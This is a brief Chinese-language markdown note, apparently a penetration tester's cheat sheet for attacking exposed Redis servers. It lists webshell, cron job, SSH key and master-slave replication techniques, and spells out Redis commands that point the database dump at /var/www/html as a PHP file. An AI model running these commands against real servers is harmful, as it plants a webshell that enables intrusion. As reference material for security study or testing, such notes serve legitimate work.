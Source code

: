 - 参考：https://blog.csdn.net/sorryagain/article/details/122664130
- 写webshell
	- ```redis
	  info
	  config set dir /var/www/html
	  config set dbfilename ttt.php
	  keys *
	  dump xxx
	  set xxx aaa
	  save
	  ```
- 写计划任务
- 写ssh密钥
- 主从复制